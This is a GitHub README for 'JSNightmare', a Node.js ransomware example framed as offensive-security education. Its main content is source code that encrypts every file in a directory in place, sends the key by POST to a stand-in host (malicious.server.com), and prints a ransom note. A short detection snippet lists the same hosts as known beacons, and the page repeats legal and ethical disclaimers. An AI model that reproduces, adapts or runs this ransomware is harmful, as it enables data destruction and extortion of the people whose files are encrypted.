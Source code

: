 
# JSNightmare - Code in JavaScript (Example) v2

##### RedTeam - Techniques for 'Offensive Security' by Volkan Sah - Simple Codings for Offensive Security (update 02/2023)

> [!WARNING]
> Please note that exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. Use this information responsibly and only on networks you have permission to access.

Ransomware attacks are one of the most destructive and malicious types of cyber threats, often resulting in significant financial losses and personal data theft. It is important to understand the mechanisms of ransomware attacks in order to protect yourself and your systems from these malicious threats.

This JavaScript code provides a simplified example of a ransomware attack and its underlying techniques. It is intended for educational and ethical hacking purposes only, and should not be used for any illegal or unethical activities. It is important to always abide by the law and use technology responsibly and ethically to promote positive outcomes for society.

## Example
```javascript
// Ransomware code (for demonstration purposes only)
var fs = require('fs');
var crypto = require('crypto');
var https = require('https');

// Directory to target for file encryption
var targetDirectory = '/user/files';

// Generate encryption key
var encryptionKey = crypto.randomBytes(32).toString('hex');

// Read all files in the target directory
fs.readdirSync(targetDirectory).forEach(file => {
  // Skip directories
  if (fs.lstatSync(file).isDirectory()) return;

  // Read file data
  var data = fs.readFileSync(file);

  // Encrypt file data with encryption key
  var cipher = crypto.createCipher('aes-256-cbc', encryptionKey);
  var encryptedData = cipher.update(data, 'utf8', 'hex') + cipher.final('hex');

  // Write encrypted data back to file
  fs.writeFileSync(file, encryptedData);
});

// Send beacon with encryption key (for demonstration purposes only)
var beaconData = JSON.stringify({ key: encryptionKey });
var options = {
  hostname: 'malicious.server.com',
  port: 443,
  path: '/beacon',
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Content-Length': beaconData.length
  }
};

var req = https.request(options, res => {
  console.log(`Beacon sent with status code: ${res.statusCode}`);
});

req.on('error', error => {
  console.error(`Error sending beacon: ${error}`);
});

req.write(beaconData);
req.end();

// Display ransom note to user
var ransomNote = `
Your files have been encrypted!
Contact us at malicious@server.com to get the decryption key.
`;

console.log(ransomNote);
```

## Note
As technology continues to advance, it's more important than ever to protect ourselves and our systems from malicious attacks. With the rise of dangerous JavaScript techniques that can be executed through the browser, it's crucial to take proactive measures to safeguard your browsing experience. By utilizing browser add-ons such as NoScript and Privacy Badger, you can protect yourself from potential threats and enjoy a safer, more secure online experience. Remember, it's not just about protecting yourself - it's about promoting a culture of responsible technology use that benefits society as a whole.

## Detecting Fallback and Beaconing Mechanisms
Ransomware often includes fallback mechanisms and beaconing to ensure it can still operate if initial commands fail. Here are some examples to detect such activities:

```javascript
// Detect beaconing attempts
var detectBeaconing = function() {
  var knownBeacons = ['malicious.server.com', 'another.malicious.com'];
  var networkRequests = getNetworkRequests(); // Hypothetical function to get network requests

  networkRequests.forEach(request => {
    if (knownBeacons.includes(request.hostname)) {
      console.warn(`Potential beacon detected to: ${request.hostname}`);
    }
  });
};

detectBeaconing();
```

## Disclaimer
The developer of this script is not responsible for any misuse or damage caused by this tool. It is the user's responsibility to ensure that they have the necessary permissions to use this tool on their chosen networks. Only for educational and ethical hacking purposes only!

## Issues
Issues for this script are not accepted as it is intended for educational purposes only and not for production use. However, you are welcome to make a Pull Request (PR) for contributions.

> [!WARNING]
> Exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges.

## Your Support
If you find this project useful and want to support it, there are several ways to do so:

- If you find the white paper helpful, please ⭐ it on GitHub. This helps make the project more visible and reach more people.
- Become a Follower: If you're interested in updates and future improvements, please follow my GitHub account. This way you'll always stay up-to-date.
- Learn more about my work: I invite you to check out all of my work on GitHub and visit my developer site https://volkansah.github.io. Here you will find detailed information about me and my projects.
- Share the project: If you know someone who could benefit from this project, please share it. The more people who can use it, the better.
**If you appreciate my work and would like to support it, please visit my [GitHub Sponsor page](https://github.com/sponsors/volkansah). Any type of support is warmly welcomed and helps me to further improve and expand my work.**

Thank you for your support! ❤️

##### Copyright S. Volkan Kücükbudak

### License
This project is licensed under the MIT - see the [LICENSE](LICENSE) file for details.
